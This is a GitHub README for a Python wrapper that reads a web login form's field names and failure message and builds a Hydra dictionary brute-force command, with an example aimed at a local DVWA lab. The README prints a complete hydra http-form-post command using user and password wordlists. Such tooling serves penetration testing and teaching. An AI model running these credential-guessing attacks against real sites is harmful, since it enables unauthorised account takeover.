 # HydraAutomation
Trying to automate hydra dic attacks against web pages so that the user doesn't have to go into the DOM in order to find the variable names for ^USER^ ,^PASS^, the form method, and failure response.

Currently, the program is only suited for http-form-post attacks and I have been using DVWA as my lab for testing.

The program is a wrapper so it requires hydra and of course Python to be preinstalled.

Run the program on the command line 
>>Python HydraAutomation.py URLOrIPAddress

Example:

>>Python HydraAutomation.py http://localhost/DVWA-1.0.8/login.php
>--------------------------------------------
>HYDRA COMMAND AUTOMATER RESULTS:
>"login.php:
>username=^USER^
>password=^PASS^
>:Login failed"
>
>hydra http://localhost/DVWA-1.0.8/login.php http-form-post "login.php:username=^USER^&password=^PASS^:Login failed" -L user.txt -P >pass.txt -t 10
